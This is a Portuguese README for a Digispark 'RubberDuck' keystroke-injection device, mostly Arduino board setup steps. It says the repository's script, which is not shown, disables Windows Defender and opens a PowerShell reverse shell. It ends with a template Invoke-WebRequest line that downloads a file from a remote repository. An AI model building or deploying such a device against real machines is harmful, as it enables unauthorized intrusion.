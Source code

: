 # RubberDuck_Digispark

### Onde comprar: 
#### "Digispark"
    https://pt.aliexpress.com/item/2040316211.html?src=google&aff_fcid=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&aff_fsk=UneMJZVf&aff_platform=aaf&sk=UneMJZVf&aff_trace_key=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&terminal_id=8aa35bb270a04908bf8a5a0994450a81

### Configurar o RubberDuck:
Baixe a IDE do Arduino aqui:
    https://www.arduino.cc/en/software

Baixe e instale os drivers do Digispark aqui:
    https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

(Role a página para baixo e baixe a Arduino Legacy IDE (1.8.X), que é uma versão com menos bugs.)

Após instalar e abrir o Arduino, aperte "Ctrl + Vírgula", o que abrirá as preferências. Na parte de "URLs Adicionais para Gerenciadores de Placas", cole o seguinte link:
#### URL de configuração do Digispark:
    https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
![alt text](<img/Screenshot_1.png>)

Depois, vá para: Ferramentas > Placa > Gerenciador de Placas. A tela de "Gerenciador de Placas" será exibida. Nessa tela, pesquise por "Digispark" e instale a única opção que aparece:
![alt text](<img/Screenshot_2.png>)

Após a instalação da placa, vá ao menu e selecione-a para começar a codificar:
![alt text](<img/Screenshot_3.png>)

Depois de configurar tudo, sempre inclua esses dois *includes* no início do seu script
(sempre mantenha o arquivo *DigiKeyboardPtBr.h* dentro da pasta do seu script):
![alt text](<img/Screenshot_4.png>)

### Baixe o DigiKeyboardPtBr aqui:
    https://github.com/cosmosredshiftsete/RubberDuck_Digispark/blob/main/DigiKeyboardPtBr.h
(Caso você baixe o repositório, o arquivo já virá junto.)

### Sobre o script:
Esse script do repositório faz o RubberDuck desativar o Windows Defender da máquina e executar uma *reverse shell* via PowerShell. Recomendo seguir a mesma lógica do script do RubberDuck. Caso queira subir um script diferente na máquina, você deve criar um repositório no GitHub com seu script e colocar o link do seu repositório na linha 49, que ele irá executar baixando via PowerShell.
#### Exemplo:
          DigiKeyboardPtBr.println("Invoke-WebRequest -Uri 'link do seu repositório aqui' -OutFile 'nome_arquivo.aqui'");
